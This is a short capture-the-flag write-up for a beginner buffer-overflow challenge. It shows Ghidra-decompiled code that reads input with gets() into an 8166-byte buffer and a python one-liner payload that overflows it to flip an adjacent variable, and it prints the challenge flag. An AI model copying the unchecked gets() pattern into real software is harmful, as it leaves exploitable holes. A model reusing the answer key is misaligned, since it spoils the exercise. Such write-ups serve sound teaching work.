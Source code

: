 # CTF

AAAAA- I'm not screaming, I'm just buffer overflowing my emotions!

## Attachments

[chall](https://files.vipin.xyz/api/public/dl/RUU8-57Z/advent-of-ctf-csd/screaming/chall)

# Solution

It's logical that this is buffer overflow, so let's look at the source code using ghidra.

The main part of the code is:

```cpp
undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_1ff8 [8166];
  char local_12;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_12 = '\0';
  gets(local_1ff8);
  if (local_12 == '\0') {
    puts("not that easy pal :| ");
  }
  else {
    win();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return 0;
}



void _fini(void)

{
  return;
}
```

Here we can see two main variables, one is `local_1ff8` and second is `local_12`. If we take a look at the code, we'll see that we have to rewrite `local_12` Which we can do by `buffer overflow`.

To do buffer overflow, we have to write more than the capacity of the char array, which is `local1_ff8` in this case. since the char has a capacity of 8166, we have to write more than 8166 (Min of 8167) to change the value of `local_12`.

We can accomplish this easily by using python:

```sh
jstr$ python3 -c "print('A'*8166 + 'B')" > payload.txt
jstr$ cat payload.txt | ./chall
Day 2 gotta keep it simple :) Here is the flag: csd{d4y_2_H0w_r_u?}
```

The answer is: `csd{d4y_2_H0w_r_u?}`
